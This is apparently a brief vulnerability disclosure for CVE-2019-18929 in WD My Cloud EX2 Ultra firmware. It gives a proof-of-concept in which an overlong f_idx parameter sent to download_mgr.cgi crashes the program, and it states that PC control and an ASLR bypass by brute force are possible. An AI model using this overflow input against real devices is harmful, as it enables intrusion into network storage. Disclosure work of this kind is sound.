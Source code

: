 # CVE-2019-18929

## Information

```
Target      : WD My Cloud EX2 Ultra
Version     : 2.31.183, 2.31.195
```

## Proof of Concept

```
root@MyCloudEX2Ultra cgi-bin # export REQUEST_METHOD=GET
root@MyCloudEX2Ultra cgi-bin # export QUERY_STRING=cmd=Downloads_Schedule_Info\&f_idx=`python -c 'print "a"*0x1f3 + "bbbb"'`
root@MyCloudEX2Ultra cgi-bin # ./download_mgr.cgi
I/O warning : failed to load external entity "/mnt/HD_a4/.systemfile/schedcfgs/aaaaaa (etc.) aaaaabbbb.xml"
Segmentation fault
```

<https://youtu.be/x_YNsGnqG1o>

## Exploit

It is possible to control the PC register and bypass ASLR by doing brute force attack.

